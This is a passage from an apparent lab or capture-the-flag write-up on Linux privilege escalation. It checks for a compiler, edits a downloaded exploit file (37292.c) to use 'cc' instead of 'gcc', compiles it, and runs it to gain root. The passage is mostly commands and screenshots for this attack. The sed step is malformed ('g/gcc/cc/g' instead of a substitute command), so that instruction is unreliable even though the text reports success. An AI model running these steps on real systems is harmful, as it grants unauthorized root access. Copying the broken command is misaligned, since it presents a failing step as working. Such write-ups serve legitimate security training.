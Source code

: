```bash
which cc
```

![image](https://user-images.githubusercontent.com/67465230/175464676-759099b5-e545-46b2-b305-f173b191688d.png)

Using `sed` command, we can replace the command `gcc` to `cc` in exploit, 

```bash
sed -i "g/gcc/cc/g" 37292.c
```

![image](https://user-images.githubusercontent.com/67465230/175464691-e28d1cb1-4777-43b1-95f5-94dfe7bdef48.png)

Now, let's compile the source code and we will see that 5 warnings are generated which can be ignored,

```bash
cc 37292.c -o exploit
```

![image](https://user-images.githubusercontent.com/67465230/175464699-d6252d71-b0dc-402e-9501-4ac12e70a64c.png)

Running the exploit and we become root!!

```bash
./exploit
```

![image](https://user-images.githubusercontent.com/67465230/175464716-efdf470a-917a-4356-b085-92c117941b97.png)
